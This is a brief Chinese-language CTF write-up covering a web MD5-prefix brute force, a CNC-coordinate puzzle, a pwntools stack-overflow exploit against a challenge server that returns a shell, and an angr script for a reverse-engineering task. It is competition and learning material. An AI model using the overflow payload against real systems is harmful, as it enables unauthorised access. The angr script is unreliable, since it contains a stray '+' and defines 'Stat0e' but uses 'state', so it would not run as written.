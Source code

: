 ##web1
看到hint御剑扫描后台得到www.zip，查看后端逻辑发现需要一个md5的前六位
![](https://i.imgur.com/wd3SX9I.png)
burp抓包发现int（.....）![](https://i.imgur.com/b7KI6oX.png)
写一个脚本跑一下![](https://i.imgur.com/fwqwd89.png)
![](https://i.imgur.com/FCDCjpm.png) 
输入得到flag![](https://i.imgur.com/P89sUWU.png)
##poit
看到有许多坐标，百度了一下可能是数控轨道，用CAXA把数据跑一下得到flag![](https://i.imgur.com/zcY3IOz.jpg)
## pwn

### 1. Password checker
![](https://i.imgur.com/zg2YTKx.png)

![](https://i.imgur.com/piIJodG.png)
from ctypes import *
import time

p=remote('ctf.asuri.org',20002)
p.sendline('a'*(260-4))
p.sendline('s'+p32(0x8048674)*8)
p.interactive()

然后打开home/ctf/flag

## rev

### middle

import angr,string
import claripy
import pickle
import sys
import logging
import time
logging.getLogger('angr').setLevel('WARNING')

p = angr.Project('./middle.bin', load_options={'auto_load_libs': False})+

def decode():                                 
    symbols = [claripy.BVS('crypto%d' % i, 8) for i in range(24)]
    
    Content = claripy.Concat(*symbols)
    Stat0e = p.factory.blank_state(
        addr=0x000000080488EB ,
        stdin=Content,
        remove_options={}
    )
    key = [claripy.BVS('key%d' % i, 8) for i in range(4)]
    state.memory.store(0x804A0D4,claripy.Concat(*key),4)
      
    for k in symbols:
        state.solver.add(k != 10)
        so1=state.solver.And( k > 8, k < 14)
        so2=state.solver.And( k > 31, k < 127)
        state.solver.add(state.solver.Or(so1,so2)==True)
    @p.hook(0x00000080489C3, length=5)
    def index(_state):
        print(_state, '233333')
    @p.hook(0x0000804882A, length=0)
    def index(_state):
        print(_state, '0x0000804882A')
    
    @p.hook(0x0008048831 , length=6)
    def index(_state):
        print(_state, 'pass')


​        
    @p.hook(0x00804883E, length=0)
    def index(_state):
        print(_state, 'no pass')
    
    @p.hook(0x0008048863 , length=0)
    def index(_state):
        print(_state, '08048899')
      
    simulation = p.factory.simulation_manager(state)
    res = simulation.explore(find=0x0080488AF ,avoid=[0x080488BD ]) 
    print(len(res.found))
    result = []
    for pp in res.found:
        tmp = pp.solver.eval_upto(Content, 10,cast_to=bytes)
        print('yes',tmp)
        tmp = pp.solver.eval_upto(claripy.Concat(*key),10, cast_to=bytes)
        print('yes',tmp)
if __name__ == "__main__":
    decode()